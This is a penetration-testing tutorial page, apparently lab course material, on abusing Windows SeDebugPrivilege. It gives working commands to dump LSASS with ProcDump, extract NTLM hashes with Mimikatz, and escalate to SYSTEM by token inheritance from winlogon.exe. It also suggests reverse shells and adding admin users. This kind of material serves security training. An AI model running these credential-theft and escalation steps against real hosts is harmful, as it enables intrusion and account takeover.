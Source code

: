 # SeDebugPrivilege

To run a particular application or service or assist with troubleshooting, a user might be assigned the [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under `Computer Settings > Windows Settings > Security Settings`. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

During an internal penetration test, it is often helpful to use websites such as LinkedIn to gather information about potential users to target. Suppose we are, for example, retrieving many NTLMv2 password hashes using `Responder` or `Inveigh`. In that case, we may want to focus our password hash cracking efforts on possible high-value accounts, such as developers who are more likely to have these types of privileges assigned to their accounts. A user may not be a local admin on a host but have rights that we cannot enumerate remotely using a tool such as BloodHound. This would be worth checking in an environment where we obtain credentials for several users and have RDP access to one or more hosts but no additional privileges.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After logging on as a user assigned the `Debug programs` right and opening an elevated shell, we see `SeDebugPrivilege` is listed.

```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

This is successful, and we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

{% hint style="info" %}
## Use mimikatz log command

**Note:** It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.
{% endhint %}

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Remote Code Execution as SYSTEM

We can also leverage `SeDebugPrivilege` for [RCE](https://decoder.cloud/2018/02/02/getting-system/). Using this technique, we can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using the elevated rights granted to our account via `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it. If we target a parent process running as SYSTEM (specifying the Process ID (or PID) of the target process or running program), then we can elevate our rights quickly. Let's see this in action.

First, transfer this [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) over to the target system. Next we just load the script and run it with the following syntax `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Note that we must add a third blank argument `""` at the end for the PoC to work properly.

{% hint style="info" %}
## Updated Script (RCE from SeDebugPrivilege)

The PoC script has received an update. Please visit its GitHub repository and review its usage. https://github.com/decoder-it/psgetsystem
{% endhint %}

First, open an elevated PowerShell console (right-click, run as admin, and type in the credentials for the `jordan` user). Next, type `tasklist` to get a listing of running processes and accompanying PIDs.

```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script, cutting down on the number of steps required.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Other tools such as [this one](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) exist to pop a SYSTEM shell when we have `SeDebugPrivilege`. Often we will not have RDP access to a host, so we'll have to modify our PoCs to either return a reverse shell to our attack host as SYSTEM or another command, such as adding an admin user. Play around with these PoCs and see what other ways you can achieve SYSTEM access, especially if you do not have a fully interactive session, such as when you achieve command injection or have a web shell or reverse shell connection as the user with `SeDebugPrivilege`. Keep these examples in mind in case you ever run into a situation where dumping LSASS does not result in any useful credentials (though we can get SYSTEM access with just the machine NTLM hash, but that's outside the scope of this module) and a shell or RCE as SYSTEM would be beneficial.
